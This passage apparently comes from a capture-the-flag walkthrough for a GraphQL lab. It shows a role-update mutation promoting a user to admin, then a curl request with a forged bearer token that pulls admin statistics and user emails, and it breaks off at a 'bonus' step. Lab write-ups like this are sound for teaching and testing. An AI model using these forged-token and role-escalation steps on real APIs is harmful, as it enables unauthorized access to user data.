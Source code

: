 **Expected Response**:
```json
{
  "data": {
    "updateMyRole": {
      "id": "1",
      "username": "ctf_user",
      "role": "admin"
    }
  }
}
```

### Step 6: Access Admin Endpoints

Now that you have admin privileges, access sensitive data:

```bash
curl -X POST https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_FORGED_TOKEN" \
  -d '{"query": "query { adminStats { totalUsers totalPosts adminUsers { id username email role } } }"}'
```

**Expected Response**:
```json
{
  "data": {
    "adminStats": {
      "totalUsers": 2,
      "totalPosts": 1,
      "adminUsers": [
        {
          "id": "1",
          "username": "ctf_user",
          "email": "user@ctf.local",
          "role": "admin"
        },
        {
          "id": "2",
          "username": "ctf_admin",
          "email": "admin@ctf.local",
          "role": "admin"
        }
      ]
    }
  }
}
```

### Step 7: Retrieve All Users (Bonus)

Access the complete user list:
